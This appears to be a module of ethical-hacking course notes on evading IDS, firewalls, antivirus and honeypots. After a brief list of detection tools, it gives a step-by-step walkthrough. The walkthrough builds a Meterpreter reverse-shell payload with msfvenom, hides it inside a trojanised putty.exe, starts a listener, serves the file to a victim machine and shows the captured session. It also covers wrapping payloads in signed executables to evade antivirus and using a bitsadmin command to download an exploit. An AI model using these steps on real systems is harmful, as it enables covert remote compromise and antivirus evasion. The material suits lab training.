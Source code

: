 # Module 12

## Evading IDS, antivirus and Honeypots
Intrusion Detection Systems (IDS) add a critical security layer, making them prime targets. Attackers use sophisticated evasion techniques to bypass detection and compromise the infrastructure. Similarly, firewalls relying on predefined rules can be tricked by skilled attackers using various bypass methods to allow malicious traffic to pass unfiltered.

---

### 1. Intrusion Detection using various tools
The goal of the Intrusion Detection Analyst is to find possible attacks against a network.

#### 1.1 Detect Intrusion using snort
[Snort - Network Intrusion Detection & Prevention System](https://www.snort.org/)

#### 1.2 Detect Malicious traffic with Zone alarm free firewall
[ZoneAlarm Free Firewall](https://www.zonealarm.com/software/free-firewall)

#### 1.3 Detect Malicious traffic using HoneyBot
[HoneyBot](https://honeybot.software.informer.com)

#### 1.4 Deploy Cowrie Honeypot to Detect Malicious Network Traffic
Cowrie serves as an SSH and Telnet honeypot, capable of capturing brute-force attacks and the actions taken by attackers within the shell.
[GitHub - cowrie/cowrie: Cowrie SSH/Telnet Honeypot https://cowrie.readthedocs.io](https://github.com/cowrie/cowrie)

---

### 2. Evade Firewall using Evasion Techniques
<img width="428" height="575" alt="image" src="https://github.com/user-attachments/assets/a333df1e-0c81-4fb8-8f58-7872bb5c2bac" />

#### 2.1 Bypass firewall using Nmap
Add a rule in windows firewall to block all traffic from the attacking machine.
In Ping sweep, the host will appear as online
- `nmap -sP 192.168.18.0/24`  only discover which hosts are up
Zombie scan can bypass the firewall rule
- `nmap -sI 192.168.18.2 192.168.18.11`  .2 is the zombie, .11 is the target

#### 2.2 Bypass firewall rules using HTTP/ FTP Tunneling 
HTTPort is a tool that bypasses restrictive HTTP proxies. It tunnels blocked traffic (like email or FTP) through an allowed HTTP connection.

**It works by**:
1. Sending data to a remote server (HTTHost) outside the blocked network using a series of HTTP requests.
2. The proxy sees this as normal web surfing and allows it.
3. The HTTHost server then forwards the traffic to the intended destination.
> This method is reliable and features strong encryption, making proxy logs useless.
[HTTPort, secure TCP through HTTP tunneling](https://www.targeted.org/htthost/)

**Steps**:
You generated a basic, easily detectable payload:
- `msfvenom -p windows/meterpreter/reverse_tcp LHOST=172.16.111.208 LPORT=4444 -f exe -o payload.exe`
You downloaded putty.exe to use as a legitimate template:
- `wget https://the.earth.li/~sgtatham/putty/latest/w32/putty.exe -O template.exe`
You injected your payload into that template to create a more evasive executable:
- `msfvenom -p windows/meterpreter/reverse_tcp LHOST=172.16.111.208 LPORT=4444 -x template.exe -k -f exe -o harmless_putty.exe`
**Result**: Your final payload is saved as harmless_putty.exe.

Start the Listener on Your Kali Machine
- `msfconsole -q`
- `use multi/handler`
- `set payload windows/meterpreter/reverse_tcp`
- `set LHOST 172.16.111.208`
- `set LPORT 4444`
- `exploit -j`

Open a new terminal and start a web server to host your harmless_putty.exe file so the victim can download it.
- `cd ~`
- `python3 -m http.server 80`

- Download on Victim Machine: On the victim machine (172.16.111.207), open a web browser and go to: http://172.16.111.208    
- Download the harmless_putty.exe file.    
- Execute the Payload: On the victim machine, run the harmless_putty.exe
- Catch the Shell: As soon as the payload is executed, you will see a message in your Metasploit console:

      [*] Sending stage (175774 bytes) to 172.16.111.207
      [*] Meterpreter session 1 opened (172.16.111.208:4444 -> 172.16.111.207:[PORT])
- Interact with the Session: Type the following command at the Metasploit prompt to interact with the victim: `sessions -i 1`
- You are all set! Your listener is active. Just transfer and run the payload on the victim machine to get your Meterpreter session.

#### 2.3 Bypass antivirus using metasploit templates
Attackers use msfvenom with the -x flag to embed a malicious payload into a legitimate, trusted executable file (like calc.exe). This tricks antivirus software into seeing the file as safe because it recognizes the trusted program's signature, allowing the hidden payload to bypass detection.

**How It's Done**
1. Acquire a Legitimate Template: Find a clean, signed executable from a trusted source. This will be your new template.
2. Inject the Payload: Use msfvenom to inject your malicious Metasploit payload (e.g., a reverse shell) into this legitimate executable.
3. The Bypass: The resulting file has the digital signature and code structure of the trusted software, but contains your hidden payload. AV is less likely to flag it because it appears to be a known-good program.

**Basic msfvenom Command**
- `msfvenom -p windows/meterpreter/reverse_tcp LHOST=YOUR_IP LPORT=4444 -x /path/to/legitimate_file.exe -k -f exe -o malicious_output.exe`
  - `-x /path/to/legitimate_file.exe`: Specifies your clean template.
  - `-k`: Tells Metasploit to preserve the template's original functionality alongside the payload. The legitimate program will still run to avoid suspicion.

---

#### 2.4 Bypass firewall using windows BITSAdmin
The utilty can be used to transfer files in windows command prompt.    
BITS (Background Intelligent Transfer Service) is an essential component of Windows XP and later versions of Windows operating systems. BITS is used by system administrators and programmers for downloading files from or uploading files to HTTP webservers and SMB file shares. BITSAdmin is a tool that is used to create download or upload jobs and monitor their progress.
bitsadmin /transfer Exploit.exe http://10.10.1.13/share/Exploit.exe c:\Exploit.exe

---
---
